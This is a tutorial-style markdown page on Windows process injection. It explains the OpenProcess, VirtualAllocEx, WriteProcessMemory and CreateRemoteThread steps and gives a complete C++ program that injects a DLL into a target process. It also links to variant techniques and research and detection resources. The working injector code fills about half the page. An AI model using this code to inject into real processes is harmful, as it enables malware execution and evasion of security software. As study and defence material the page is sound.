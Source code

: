 # Process Injection

Process injection is a technique used by attackers to execute arbitrary code within the address space of another process. This allows the malicious code to run under the context of a legitimate process, which can help it evade detection by security software and gain elevated privileges.

## How process injection works

A basic process injection technique includes the following steps:

1. **Opening a Target Process:** The attacker identifies and opens a handle to the target process using functions like `OpenProcess`.
2. **Allocating Memory in the Target Process:** The attacker allocates memory within the target process using `VirtualAllocEx`.
3. **Writing Malicious Code to the Allocated Memory:** The malicious code is written into the allocated memory using `WriteProcessMemory`.
4. **Creating a Remote Thread:** Finally, the attacker creates a remote thread to execute the malicious code within the context of the target process using `CreateRemoteThread`.

### Sample implementation

Below is a simplified example of process injection in C++ on Windows:

```cpp
#include <windows.h>
#include <iostream>

int main() {
    // The process ID (PID) of the target process
    DWORD pid = 1234; // Example PID
    const char* dllPath = "C:\\path\\to\\malicious.dll";

    // Step 1: Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        std::cerr << "Failed to open process" << std::endl;
        return 1;
    }

    // Step 2: Allocate memory in the target process
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
    if (!pRemoteMemory) {
        std::cerr << "Failed to allocate memory in target process" << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    // Step 3: Write the DLL path to the allocated memory
    if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL)) {
        std::cerr << "Failed to write to target process memory" << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Step 4: Create a remote thread to load the DLL
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, pRemoteMemory, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create remote thread" << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    std::cout << "DLL injected successfully" << std::endl;
    return 0;
}
```

### Other variants of process injection techniques

Beyond the basic example above, several other techniques exist, each with unique methods and purposes:

- APC Injection
- [AtomBombing Injection](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows)
- [Breaking BaDDEr](https://modexp.wordpress.com/2019/08/09/windows-process-injection-breaking-badder/)
- [CTray](https://modexp.wordpress.com/2018/08/26/process-injection-ctray/)
- [PROPagate](https://www.hexacorn.com/blog/2017/10/26/propagate-a-new-code-injection-trick/)
- [CLIPBRDWNDCLASS](http://www.hexacorn.com/blog/2018/11/19/propagate-yet-another-follow-up-hypothetical-clipboard-execution-version/)
- ...

## Resources

- https://github.com/odzhan/injection
- https://github.com/theevilbit/injection
- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://www.elastic.co/blog/how-hunt-detecting-persistence-evasion-com
- https://github.com/AzureGreen/InjectCollection
- https://github.com/SafeBreach-Labs/pinjectra
- https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf
- https://unprotect.it/category/process-manipulating/
